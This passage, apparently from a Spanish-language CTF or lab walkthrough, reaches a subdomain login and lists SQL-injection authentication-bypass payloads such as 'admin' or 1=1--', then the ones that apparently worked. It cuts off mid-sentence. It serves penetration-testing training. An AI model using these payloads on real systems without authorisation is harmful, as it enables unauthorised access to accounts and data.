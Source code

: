 Encontramos un login.

Como no tenemos credenciales válidas, podemos intentar probar **Inyecciones SQL**.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="SQLi">Aplicando Inyecciones SQL en Login de Subdominio</h2>

Imaginemos que la consulta que se hace en el login es la siguiente:
```bash
SELECT * FROM users WHERE username = 'usuario' and password = 'contraseña';
```
En este caso debemos identificar qué campo es vulnerable, si el campo del usuario o el de la contraseña.

Lo principal que podemos hacer es, provocar un error en la consulta probando en cada campo o en ambos, y podemos hacerlo con alguna de las siguientes inyecciones:
```bash
'
"
# 
;
)
admin'-- -
admin'--
admin' #
admin' or 1=1--
admin' or 1=1#
admin' or '1'='1
admin' or '1'='1'-- -
admin' or 1=1/*
admin' /*
admin')-- -
admin' ) or '1'='1--
admin' ) or ('1'='1--
```

Resulta que las inyecciones:
```bash
'
admin'--
admin' or 1=1--
admin' or 1=1/*
admin' /*
admin')-- -
admin' ) or '1'='1--
```
